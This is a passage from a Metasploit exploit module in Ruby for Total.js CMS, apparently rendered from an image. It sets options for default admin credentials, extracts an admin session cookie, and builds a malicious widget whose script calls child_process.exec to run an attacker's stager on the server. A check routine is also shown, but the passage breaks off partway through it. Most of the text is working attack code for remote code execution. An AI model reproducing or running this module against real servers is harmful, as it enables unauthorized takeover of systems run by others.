           'Stability'   => [ CRASH_SAFE ]
        },
      'Privileged'     => false,
      'DisclosureDate' => '2019-08-30', # Reported to seclist
      'DefaultTarget'  => 0))
 
    register_options(
      [
        OptString.new('TARGETURI', [true, 'The base path for Total.js CMS', '/']),
        OptString.new('TOTALJSUSERNAME', [true, 'The username for Total.js admin', 'admin']),
        OptString.new('TOTALJSPASSWORD', [true, 'The password for Total.js admin', 'admin'])
      ])
  end
 
  class AdminToken
    attr_reader :token
 
    def initialize(cookie)
      @token = cookie.scan(/__admin=([a-zA-Z\d]+);/).flatten.first
    end
 
    def blank?
      token.blank?
    end
  end
 
  class Widget
    attr_reader :name
    attr_reader :category
    attr_reader :source_code
    attr_reader :platform
    attr_reader :url
 
    def initialize(p, u, stager)
      @name = "p_#{Rex::Text.rand_text_alpha(10)}"
      @category = 'content'
      @platform = p
      @url = u
      @source_code  = %Q|<script total>|
      @source_code << %Q|global.process.mainModule.require('child_process')|
      @source_code << %Q|.exec("sleep 2;#{stager}");|
      @source_code << %Q|</script>|
    end
  end
 
  def check
    code = CheckCode::Safe
 
    res = send_request_cgi({
      'method' => 'GET',
      'uri'    => normalize_uri(target_uri.path, 'admin', 'widgets')
    })
 
    unless res
      vprint_error('Connection timed out')
      return CheckCode::Unknown
    end
 